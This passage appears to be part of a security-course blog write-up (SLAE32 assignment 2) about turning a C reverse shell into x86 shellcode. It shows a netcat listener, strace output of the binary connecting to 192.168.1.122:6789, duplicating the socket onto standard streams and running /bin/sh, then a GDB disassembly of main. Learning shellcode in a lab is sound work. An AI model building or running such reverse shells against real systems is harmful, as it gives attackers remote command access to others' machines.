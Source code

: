 **Using netcat to listen on port 6789**<br/>
<img src="{{ site.url }}/images/slae32/02-01.png"/>

**Building and running reverse shell**<br/>
<img src="{{ site.url }}/images/slae32/02-02.png"/>

**Receiving reverse shell**<br/>
<img src="{{ site.url }}/images/slae32/02-03.png"/>

## Phase 2: Understanding how parameters are passed around using strace and GDB
The idea of debugging this was to set a breakpoint at each system call and analyze the registers and stack to see what is needed at the point of the call.  With this information we can then come up with our own way to get the same values setup properly in a shellcode safe manner.

We can get a quick view of the calls with strace as seen here (this is useful and is helpful when looking at the assembly dump in GDB). In most cases, you can see the value of each parameter that was used to the function calls which would be either on the stack or in one of the registers.  In the case of a parameter value that is enclosed in curly braces {} this is likely a pointer to a struct that resides on the stack.

```
[sengen@manjaro-x86 assignment2]$ strace -e socket,connect,dup2,execve ./rev_shell
execve("./rev_shell", ["./rev_shell"], 0xbfd4efe8 /* 55 vars */) = 0
socket(AF_INET, SOCK_STREAM, IPPROTO_IP) = 3
connect(3, {sa_family=AF_INET, sin_port=htons(6789), sin_addr=inet_addr("192.168.1.122")}, 16) = 0
dup2(3, 0)                              = 0
dup2(3, 1)                              = 1
dup2(3, 2)                              = 2
execve("/bin/sh", NULL, NULL)           = 0
socket(AF_UNIX, SOCK_STREAM|SOCK_CLOEXEC|SOCK_NONBLOCK, 0) = 4
connect(4, {sa_family=AF_UNIX, sun_path="/var/run/nscd/socket"}, 110) = -1 ENOENT (No such file or directory)
socket(AF_UNIX, SOCK_STREAM|SOCK_CLOEXEC|SOCK_NONBLOCK, 0) = 4
connect(4, {sa_family=AF_UNIX, sun_path="/var/run/nscd/socket"}, 110) = -1 ENOENT (No such file or directory)
--- SIGCHLD {si_signo=SIGCHLD, si_code=CLD_EXITED, si_pid=31304, si_uid=1000, si_status=0, si_utime=0, si_stime=0} ---
+++ exited with 0 +++
```

The following is the dump of the main function. I put breakpoints before each function call I was interested in and printed the relevant register or stack information for use when I write my shellcode.
```nasm
gdb$ disassemble main
Dump of assembler code for function main:
   0x0040068d <+0>:	lea    ecx,[esp+0x4]
   0x00400691 <+4>:	and    esp,0xfffffff0
   0x00400694 <+7>:	push   DWORD PTR [ecx-0x4]
   0x00400697 <+10>:	push   ebp
   0x00400698 <+11>:	mov    ebp,esp
   0x0040069a <+13>:	push   ebx
   0x0040069b <+14>:	push   ecx
   0x0040069c <+15>:	sub    esp,0x30
   0x0040069f <+18>:	call   0x400590 <__x86.get_pc_thunk.bx>
   0x004006a4 <+23>:	add    ebx,0x195c
   0x004006aa <+29>:	mov    eax,gs:0x14
   0x004006b0 <+35>:	mov    DWORD PTR [ebp-0xc],eax
   0x004006b3 <+38>:	xor    eax,eax
   0x004006b5 <+40>:	lea    eax,[ebx-0x17cc]
   0x004006bb <+46>:	mov    DWORD PTR [ebp-0x28],eax
   0x004006be <+49>:	mov    DWORD PTR [ebp-0x24],0x1a85
   0x004006c5 <+56>:	sub    esp,0x4
```